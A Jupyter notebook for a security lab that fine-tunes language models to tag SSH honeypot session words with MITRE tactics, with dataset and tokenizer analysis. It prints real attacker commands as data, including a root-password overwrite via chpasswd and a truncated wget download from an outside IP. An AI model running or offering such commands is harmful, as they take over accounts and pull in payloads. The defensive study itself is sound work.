# Laboratory 4 — NLP for Malicious SSH Log Analysis

**Objective:** Apply NLP techniques to cybersecurity by fine-tuning pre-trained language models for Named Entity Recognition (NER) on SSH session logs. The goal is to classify each "SSH word" (command, flag, parameter, separator) to its corresponding **MITRE tactic**.

**Core Activities:**
* Analyze datasets described by textual data
* Understand the impact of different tokenization strategies
* Experiment with various pre-trained Language Models and compare their performance
* Use fine-tuned models for inference to investigate cybersecurity threats

> ⚠️ **WARNING:** The dataset contains attacks collected from real deployments. **Do not carelessly execute scripts on your laptop.**
>
> ⚠️ **CRITICAL:** Do not decode base64 strings found in the logs. They may contain malicious scripts.

## Setup

In [28]:
# --- Check Python and pip versions ---
!python --version
!pip install --upgrade pip

Python 3.12.13
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.8/1.8 MB 29.0 MB/s eta 0:00:00
  Attempting uninstall: pip
    Found existing installation: pip 24.1.2
    Uninstalling pip-24.1.2:
      Successfully uninstalled pip-24.1.2


In [29]:
# --- Install required libraries ---
!pip install torch torchvision
!pip install numpy pandas scikit-learn matplotlib seaborn
!pip install transformers datasets
!pip install tqdm

In [30]:
# --- Import libraries ---
import os
import time
import json
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
import torch
import torch.nn as nn
import random
import math
import re


from collections import Counter
from copy import deepcopy
from itertools import chain
from sklearn.model_selection import train_test_split
from sklearn.metrics import (
    accuracy_score, precision_score, recall_score, f1_score,
    confusion_matrix, classification_report
)
from torch.optim import AdamW
from torch.utils.data import DataLoader
from transformers import (
    AutoTokenizer,
    AutoModelForTokenClassification,
    AutoConfig,
    DataCollatorForTokenClassification,
    get_scheduler
)
from datasets import Dataset, DatasetDict
from tqdm.auto import tqdm
from pathlib import Path

# Suppress warnings
import warnings
warnings.filterwarnings('ignore')

In [31]:
# --- Set random seed for reproducibility ---
SEED = 2025
random.seed(SEED)
np.random.seed(SEED)
torch.manual_seed(SEED)
if torch.cuda.is_available():
    torch.cuda.manual_seed_all(SEED)
torch.backends.cudnn.deterministic = True
torch.backends.cudnn.benchmark = False

In [32]:
# --- Set device ---
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Using device: {device}")

Using device: cuda


### Colab Pro

In [33]:
# --- Check GPU availability ---
gpu_info = !nvidia-smi
gpu_info = '\n'.join(gpu_info)
if gpu_info.find('failed') >= 0:
  print('Not connected to a GPU')
else:
  print(gpu_info)

Thu May 21 11:32:27 2026       
+-----------------------------------------------------------------------------------------+
| NVIDIA-SMI 580.82.07              Driver Version: 580.82.07      CUDA Version: 13.0     |
+-----------------------------------------+------------------------+----------------------+
| GPU  Name                 Persistence-M | Bus-Id          Disp.A | Volatile Uncorr. ECC |
| Fan  Temp   Perf          Pwr:Usage/Cap |           Memory-Usage | GPU-Util  Compute M. |
|                                         |                        |               MIG M. |
|=========================================+========================+======================|
|   0  Tesla T4                       Off |   00000000:00:04.0 Off |                    0 |
| N/A   38C    P8             10W /   70W |       3MiB /  15360MiB |      0%      Default |
|                                         |                        |                  N/A |
+-----------------------------------------+-----

In [34]:
# --- Check RAM availability ---
from psutil import virtual_memory
ram_gb = virtual_memory().total / 1e9
print('Your runtime has {:.1f} gigabytes of available RAM\n'.format(ram_gb))

if ram_gb < 20:
  print('Not using a high-RAM runtime')
else:
  print('You are using a high-RAM runtime!')

Your runtime has 13.6 gigabytes of available RAM

Not using a high-RAM runtime


### Paths setup


In [35]:
3# --- Mount Google Drive (for Google Colab users) ---
IN_COLAB = False
try:
    from google.colab import drive  # type: ignore
    drive.mount('/content/drive')
    IN_COLAB = True
    print("Google Colab detected: Drive mounted.")
except ModuleNotFoundError:
    print("Local environment detected: skipping Google Drive mount.")

Mounted at /content/drive
Google Colab detected: Drive mounted.


In [36]:
# --- Define Paths ---
import os
from pathlib import Path

group = 'AImSecure'
laboratory = 'Laboratory4'

def find_repo_root(start: Path) -> Path:
    for candidate in [start, *start.parents]:
        if (candidate / 'lab' / 'data' / 'datasets' / 'train.json').exists():
            return candidate
    return start

if IN_COLAB:
    base_path = Path('/content/drive/MyDrive')
    project_root = base_path / f'Projects/{group}/{laboratory}'
    data_candidates = [
        project_root / 'data',
        project_root / 'lab' / 'data' / 'datasets',
    ]
    results_root = project_root / 'results'
else:
    project_root = find_repo_root(Path.cwd().resolve())
    data_candidates = [
        project_root / 'lab' / 'data' / 'datasets',
        project_root / 'lab' / 'data',
        project_root / 'tmp' / 'lab' / 'data',
    ]
    results_root = project_root / 'tmp' / 'lab'

existing_data = next((p for p in data_candidates if p.exists()), data_candidates[0])

project_path = str(project_root) + '/'
data_path = str(existing_data) + '/'
results_path = str(results_root) + '/'

os.makedirs(results_root, exist_ok=True)

print(f"Project path: {project_path}")
print(f"Data path: {data_path}")
print(f"Results path: {results_path}")

Project path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/
Data path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/data/
Results path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/


In [37]:
# --- Set visual style ---
sns.set(style="whitegrid", palette="muted", font_scale=1.1)

def save_plot(fig: plt.Figure, filename: str, path: str = "./plots/", fmt: str = "png", dpi: int = 300, close_fig: bool = False) -> None:
    """
    Save a Matplotlib figure in a specific to a specified directory.

    Args:
        fig (plt.Figure): Matplotlib figure object to save.
        filename (str): Name of the file to save (e.g., 'plot.png').
        path (str, optional): Directory path to save the figure. Defaults to './plots/'.
        fmt (str, optional): File format for the saved figure. Defaults to 'png'.
        dpi (int, optional): Dots per inch for the saved figure. Defaults to 300.

    Returns:
        None
    """
    # Ensure the directory exists
    os.makedirs(path, exist_ok=True)
    save_path = os.path.join(path, f"{filename}.{fmt}")

    # Save the figure
    fig.savefig(save_path, bbox_inches='tight', pad_inches=0.1, dpi=dpi, format=fmt)
    # plt.close(fig) # Removed to display plots in notebook

    if close_fig:
        plt.close(fig)

    print(f"Saved plot: {save_path}")

## Task 1 — Dataset Characterization

Before training, explore the data to understand distributions and tokenization.

In [38]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task1_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load the datasets ---
with open(data_path + 'train.json', 'r') as f:
    train_data = json.load(f)
with open(data_path + 'test.json', 'r') as f:
    test_data = json.load(f)

# Convert to DataFrames
train_df = pd.DataFrame(train_data)
test_df = pd.DataFrame(test_data)

print(f"Training dataset contains {len(train_df):,} sessions")
print(f"Testing dataset contains {len(test_df):,} sessions")
train_df.head()

Training dataset contains 251 sessions
Testing dataset contains 108 sessions


,session,label
0,rm -rf /var/run/1sh ; wget -c http://71.127.14...,"[Execution, Execution, Execution, Execution, E..."
1,cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[Discovery, Discovery, Discovery, Discovery, D..."
2,cd /tmp || cd /var/run || cd /mnt || cd /root ...,"[Execution, Execution, Execution, Execution, E..."
3,ls -la /dev/ttyGSM* /var/spool/sms/* /var/log/...,"[Discovery, Discovery, Discovery, Discovery, D..."
4,cat /var/tmp/.systemcache436621 ; echo 1 > /va...,"[Discovery, Discovery, Discovery, Discovery, D..."


### 1.1 Label Analysis

**Instructions:**
- Count distinct tags and analyze distribution (bash words per tag).
- Create a Barplot showing tag distribution with 2 bars per tag: Train vs Test.

**Q:** What are the distinct MITRE tactic tags in the dataset? How are they distributed?

*Your analysis here*

In [39]:
# --- Analyze tag distribution ---
# Extract all tags from train and test sets
train_tags = [tag for tags in train_df['label'] for tag in tags]
test_tags = [tag for tags in test_df['label'] for tag in tags]

# Count unique tags
unique_tags = list(set(train_tags + test_tags))
print(f"Distinct tags found: {len(unique_tags)}")
print(f"Tags: {unique_tags}")

# Create distribution counts
train_tag_counts = Counter(train_tags)
test_tag_counts = Counter(test_tags)

# Calculate percentages
total_train = len(train_tags)
total_test = len(test_tags)

# Create DataFrame for plotting
tag_distribution = pd.DataFrame({
    'Tag': unique_tags,
    'Train Count': [train_tag_counts.get(tag, 0) for tag in unique_tags],
    'Train %': [round((train_tag_counts.get(tag, 0) / total_train) * 100, 2) if total_train > 0 else 0 for tag in unique_tags],
    'Test Count': [test_tag_counts.get(tag, 0) for tag in unique_tags],
    'Test %': [round((test_tag_counts.get(tag, 0) / total_test) * 100, 2) if total_test > 0 else 0 for tag in unique_tags]
}).sort_values('Train Count', ascending=False)

print("\nTag distribution (Counts and Percentages):")
print(tag_distribution.to_string(index=False))


Distinct tags found: 7
Tags: ['Execution', 'Impact', 'Other', 'Discovery', 'Persistence', 'Not Malicious Yet', 'Defense Evasion']

Tag distribution (Counts and Percentages):
              Tag  Train Count  Train %  Test Count  Test %
        Discovery         6009    52.37        3307   53.36
        Execution         3239    28.23        1568   25.30
      Persistence         1133     9.87         683   11.02
           Impact          312     2.72         133    2.15
  Defense Evasion          309     2.69         218    3.52
Not Malicious Yet          264     2.30         212    3.42
            Other          209     1.82          76    1.23


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task1_plots/tag_distribution_barplot.png




In [40]:
# --- Plot: Tag Distribution Barplot (Train vs Test) ---
fig, ax = plt.subplots(figsize=(12, 6))

x = np.arange(len(tag_distribution))
width = 0.35

bars1 = ax.bar(x - width/2, tag_distribution['Train Count'], width, label='Train', color='#2E86C1', edgecolor='black')
bars2 = ax.bar(x + width/2, tag_distribution['Test Count'], width, label='Test', color='#27AE60', edgecolor='black')

ax.set_xlabel('MITRE Tactic Tag', fontsize=12)
ax.set_ylabel('Number of Bash Words', fontsize=12)
ax.set_title('Tag Distribution: Train vs Test', fontsize=14)
ax.set_xticks(x)
ax.set_xticklabels(tag_distribution['Tag'], rotation=45, ha='right')
ax.legend()
ax.grid(True, linestyle='--', alpha=0.7, axis='y')

# Add value labels on bars
for bar in bars1:
    height = bar.get_height()
    ax.annotate(f'{int(height)}', xy=(bar.get_x() + bar.get_width()/2, height),
                xytext=(0, 3), textcoords="offset points", ha='center', va='bottom', fontsize=8)
for bar in bars2:
    height = bar.get_height()
    ax.annotate(f'{int(height)}', xy=(bar.get_x() + bar.get_width()/2, height),
                xytext=(0, 3), textcoords="offset points", ha='center', va='bottom', fontsize=8)

plt.tight_layout()
save_plot(fig, 'tag_distribution_barplot', path=save_dir, dpi=300)
plt.show()

### 1.2 Command Analysis: 'echo'

**Instructions:**
- Analyze how many different tags are assigned to the command `echo`.
- Find 1 example session where `echo` is tagged as 'Persistence' and 1 where it is 'Execution'.

**Q:** Why might the same command (`echo`) be labeled with different MITRE tactics in different contexts?

*Your analysis here*

In [41]:
# --- Analyze the 'echo' command ---
# Find all occurrences of 'echo' and their associated tags
echo_tags = []
echo_examples = {'Persistence': None, 'Execution': None}

for idx, row in train_df.iterrows():
    # Split the sentence into words (use .split() not .split(" "))
    words = row['session'].split()
    tags = row['label']

    for word, tag in zip(words, tags):
        if word.lower() == 'echo':
            echo_tags.append(tag)
            # Store example sessions
            if tag == 'Persistence' and echo_examples['Persistence'] is None:
                echo_examples['Persistence'] = {
                    'session': row['session'],
                    'label': tags,
                    'index': idx
                }
            elif tag == 'Execution' and echo_examples['Execution'] is None:
                echo_examples['Execution'] = {
                    'session': row['session'],
                    'label': tags,
                    'index': idx
                }

# Count unique tags for 'echo'
echo_tag_counts = Counter(echo_tags)
print(f"Tags assigned to 'echo' command:")
for tag, count in echo_tag_counts.most_common():
    print(f"  {tag}: {count}")

Tags assigned to 'echo' command:
  Persistence: 104
  Execution: 39
  Discovery: 31
  Not Malicious Yet: 8
  Impact: 6
  Other: 4


In [42]:
# --- Display example sessions for 'echo' with different tags ---
print("=" * 80)
print("Example session where 'echo' is tagged as 'Persistence':")
print("=" * 80)
if echo_examples['Persistence']:
    print(f"Session: {echo_examples['Persistence']['session']}")
    print(f"Labels: {echo_examples['Persistence']['label']}")
else:
    print("No 'Persistence' example found for 'echo'")

print("\n" + "=" * 80)
print("Example session where 'echo' is tagged as 'Execution':")
print("=" * 80)
if echo_examples['Execution']:
    print(f"Session: {echo_examples['Execution']['session']}")
    print(f"Labels: {echo_examples['Execution']['label']}")
else:
    print("No 'Execution' example found for 'echo'")

Example session where 'echo' is tagged as 'Persistence':
Session: cat /proc/cpuinfo | grep name | wc -l ; echo root:HGbB4i9gUXMh | chpasswd | bash ; cat /proc/cpuinfo | grep name | head -n 1 | awk {print $4,$5,$6,$7,$8,$9;} ; free -m | grep Mem | awk {print $2 ,$3, $4, $5, $6, $7} ; ls -lh $which ls ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ;
Labels: ['Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery'

### 1.3 Session Length Analysis

**Instructions:**
- Calculate the number of Bash words per session.
- Plot an Estimated Cumulative Distribution Function (ECDF).

**Q:** What is the distribution of session lengths? Are there very long sessions that might cause issues during tokenization?

*Your analysis here*

In [43]:
# --- Helper function for ECDF ---
def get_ecdf(list_numbers):
    """Calculate Empirical Cumulative Distribution Function."""
    counter = Counter(list_numbers)
    values = sorted(counter.keys())
    counts = [counter[value] for value in values]
    total = sum(counts)
    cumulative_probs = np.cumsum(counts) / total
    return values, cumulative_probs

In [44]:
# --- Calculate session lengths (number of bash words per session) ---
train_session_lengths = [len(row['session'].split()) for _, row in train_df.iterrows()]
test_session_lengths = [len(row['session'].split()) for _, row in test_df.iterrows()]

print("Training set session length statistics:")
print(f"  - Min: {min(train_session_lengths)}")
print(f"  - Max: {max(train_session_lengths)}")
print(f"  - Mean: {np.mean(train_session_lengths):.2f}")
print(f"  - Median: {np.median(train_session_lengths):.2f}")

print("\nTest set session length statistics:")
print(f"  - Min: {min(test_session_lengths)}")
print(f"  - Max: {max(test_session_lengths)}")
print(f"  - Mean: {np.mean(test_session_lengths):.2f}")
print(f"  - Median: {np.median(test_session_lengths):.2f}")

Training set session length statistics:
  - Min: 2
  - Max: 224
  - Mean: 45.70
  - Median: 17.00

Test set session length statistics:
  - Min: 2
  - Max: 224
  - Mean: 57.38
  - Median: 23.50


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task1_plots/session_length_ecdf.png




In [45]:
# --- Plot: ECDF of Session Lengths ---
all_session_lengths = train_session_lengths + test_session_lengths
lengths, cumulative_probs = get_ecdf(all_session_lengths)

fig, axs = plt.subplots(1, 2, figsize=(12, 4))

for ax in axs:
    ax.step(lengths, cumulative_probs, where='post', color='royalblue', linewidth=2)
    ax.scatter(lengths, cumulative_probs, color='black', s=20, zorder=5)
    ax.grid(True, linestyle='--', alpha=0.7)
    ax.set_ylabel('ECDF', fontsize=12)
    ax.set_ylim(0, 1.05)

axs[0].set_xlabel('Number of Bash Words per Session', fontsize=12)
axs[0].set_title('ECDF of Session Length (Linear Scale)', fontsize=12)

axs[1].set_xlabel('Number of Bash Words per Session (log scale)', fontsize=12)
axs[1].set_title('ECDF of Session Length (Log Scale)', fontsize=12)
axs[1].set_xscale('log')

fig.suptitle('Empirical Cumulative Distribution Function of Session Lengths', fontsize=14, y=1.02)
plt.tight_layout()
save_plot(fig, 'session_length_ecdf', path=save_dir)
plt.show()

## Task 2 — Tokenization

Compare two specific pre-trained models:
1. **BERT-base** (`bert-base-uncased`): Pre-trained on English text
2. **UnixCoder-base** (`microsoft/unixcoder-base`): Pre-trained on natural language and source code (Python, Java, Bash)

In [46]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task2_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load tokenizers ---
BERT_MODEL = "bert-base-uncased"
UNIXCODER_MODEL = "microsoft/unixcoder-base"

bert_tokenizer = AutoTokenizer.from_pretrained(BERT_MODEL, add_prefix_space=True)
unixcoder_tokenizer = AutoTokenizer.from_pretrained(UNIXCODER_MODEL, add_prefix_space=True)

print(f"BERT vocabulary size: {bert_tokenizer.vocab_size:,}")
print(f"UnixCoder vocabulary size: {unixcoder_tokenizer.vocab_size:,}")
print(f"\nModel max length (context size):")
print(f"  BERT: {bert_tokenizer.model_max_length:,}")
print(f"  UnixCoder: {unixcoder_tokenizer.model_max_length:,}")

config.json:   0%|          | 0.00/570 [00:00<?, ?B/s]

tokenizer_config.json:   0%|          | 0.00/48.0 [00:00<?, ?B/s]

vocab.txt: 0.00B [00:00, ?B/s]

tokenizer.json: 0.00B [00:00, ?B/s]

config.json:   0%|          | 0.00/691 [00:00<?, ?B/s]

tokenizer_config.json: 0.00B [00:00, ?B/s]

vocab.json: 0.00B [00:00, ?B/s]

merges.txt: 0.00B [00:00, ?B/s]

special_tokens_map.json:   0%|          | 0.00/772 [00:00<?, ?B/s]

BERT vocabulary size: 30,522
UnixCoder vocabulary size: 51,416

Model max length (context size):
  BERT: 512
  UnixCoder: 1,000,000,000,000,000,019,884,624,838,656


### 2.1 Micro-test: Tokenization Comparison

**Instructions:**
- Tokenize the list `['cat', 'shell', 'echo', 'top', 'chpasswd', 'crontab', 'wget', 'busybox', 'grep']`
- Compare how each tokenizer divides commands.

**Q:** Which tokenizer has a better token-to-word ratio for these SSH commands?

*Your analysis here*

In [47]:
# --- Micro-test: Tokenize specific SSH commands ---
test_commands = ['cat', 'shell', 'echo', 'top', 'chpasswd', 'crontab', 'wget', 'busybox', 'grep']

print("Tokenization comparison for SSH commands:")
print("=" * 70)
print(f"{'Command':<12} | {'BERT Tokens':<25} | {'UnixCoder Tokens':<25}")
print("-" * 70)

bert_total_tokens = 0
unix_total_tokens = 0

for cmd in test_commands:
    # Tokenize with BERT
    bert_tokens = bert_tokenizer.tokenize(cmd)
    # Tokenize with UnixCoder
    unix_tokens = unixcoder_tokenizer.tokenize(cmd)

    bert_total_tokens += len(bert_tokens)
    unix_total_tokens += len(unix_tokens)

    print(f"{cmd:<12} | {str(bert_tokens):<25} | {str(unix_tokens):<25}")

print("-" * 70)
print(f"\nTotal tokens for {len(test_commands)} commands:")
print(f"  BERT: {bert_total_tokens} tokens (ratio: {bert_total_tokens/len(test_commands):.2f})")
print(f"  UnixCoder: {unix_total_tokens} tokens (ratio: {unix_total_tokens/len(test_commands):.2f})")

Tokenization comparison for SSH commands:
Command      | BERT Tokens               | UnixCoder Tokens         
----------------------------------------------------------------------
cat          | ['cat']                   | ['Ġcat']                 
shell        | ['shell']                 | ['Ġshell']               
echo         | ['echo']                  | ['Ġecho']                
top          | ['top']                   | ['Ġtop']                 
chpasswd     | ['ch', '##pass', '##wd']  | ['Ġch', 'passwd']        
crontab      | ['cr', '##ont', '##ab']   | ['Ġc', 'ront', 'ab']     
wget         | ['w', '##get']            | ['Ġw', 'get']            
busybox      | ['busy', '##box']         | ['Ġbusy', 'box']         
grep         | ['gr', '##ep']            | ['Ġgrep']                
----------------------------------------------------------------------

Total tokens for 9 commands:
  BERT: 16 tokens (ratio: 1.78)
  UnixCoder: 14 tokens (ratio: 1.56)


### 2.2 Corpus Tokenization

**Instructions:**
- Tokenize the entire training corpus with both tokenizers.
- Compare average tokens per session and max tokens per session.

**Q:** Why might one tokenizer produce more tokens than another? (Hint: Consider usage of `[UNK]` token)

*Your analysis here*

In [48]:
# --- Tokenize the entire training corpus ---
train_sentences = train_df['session'].tolist()

# Tokenize with BERT
bert_tokenized = bert_tokenizer(train_sentences)
bert_tokens_per_session = [len(ids) for ids in bert_tokenized['input_ids']]

# Tokenize with UnixCoder
unix_tokenized = unixcoder_tokenizer(train_sentences)
unix_tokens_per_session = [len(ids) for ids in unix_tokenized['input_ids']]

print("Corpus Tokenization Statistics:")
print("=" * 60)
print(f"{'Metric':<30} | {'BERT':<12} | {'UnixCoder':<12}")
print("-" * 60)
print(f"{'Average tokens/session':<30} | {np.mean(bert_tokens_per_session):<12.2f} | {np.mean(unix_tokens_per_session):<12.2f}")
print(f"{'Max tokens/session':<30} | {max(bert_tokens_per_session):<12} | {max(unix_tokens_per_session):<12}")
print(f"{'Min tokens/session':<30} | {min(bert_tokens_per_session):<12} | {min(unix_tokens_per_session):<12}")
print(f"{'Median tokens/session':<30} | {np.median(bert_tokens_per_session):<12.1f} | {np.median(unix_tokens_per_session):<12.1f}")

Token indices sequence length is longer than the specified maximum sequence length for this model (1889 > 512). Running this sequence through the model will result in indexing errors


Corpus Tokenization Statistics:
Metric                         | BERT         | UnixCoder   
------------------------------------------------------------
Average tokens/session         | 178.59       | 409.32      
Max tokens/session             | 1889         | 28920       
Min tokens/session             | 4            | 4           
Median tokens/session          | 71.0         | 62.0        


In [49]:
# --- Analyze [UNK] token usage ---
bert_unk_id = bert_tokenizer.unk_token_id
unix_unk_id = unixcoder_tokenizer.unk_token_id

bert_unk_count = sum(1 for ids in bert_tokenized['input_ids'] for id in ids if id == bert_unk_id)
unix_unk_count = sum(1 for ids in unix_tokenized['input_ids'] for id in ids if id == unix_unk_id)

print(f"\n[UNK] Token Analysis:")
print(f"  BERT [UNK] occurrences: {bert_unk_count}")
print(f"  UnixCoder [UNK] occurrences: {unix_unk_count}")


[UNK] Token Analysis:
  BERT [UNK] occurrences: 303
  UnixCoder [UNK] occurrences: 0


### 2.3 Truncation Analysis

**Instructions:**
- Set `max_length=512`. Count how many sessions are currently truncated.
- Analyze the session with the maximum number of tokens.

**Q:** Why is the longest session so long? What does it contain?

*Your analysis here*

In [50]:
# --- Truncation analysis with max_length=512 ---
MAX_LENGTH = 512

# Count sessions exceeding max_length
bert_truncated = sum(1 for n in bert_tokens_per_session if n > MAX_LENGTH)
unix_truncated = sum(1 for n in unix_tokens_per_session if n > MAX_LENGTH)

print(f"Truncation Analysis (max_length={MAX_LENGTH}):")
print(f"  BERT - Sessions truncated: {bert_truncated}/{len(train_df)} ({bert_truncated/len(train_df)*100:.2f}%)")
print(f"  UnixCoder - Sessions truncated: {unix_truncated}/{len(train_df)} ({unix_truncated/len(train_df)*100:.2f}%)")

Truncation Analysis (max_length=512):
  BERT - Sessions truncated: 24/251 (9.56%)
  UnixCoder - Sessions truncated: 29/251 (11.55%)


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task2_plots/task2_extra_plots.png


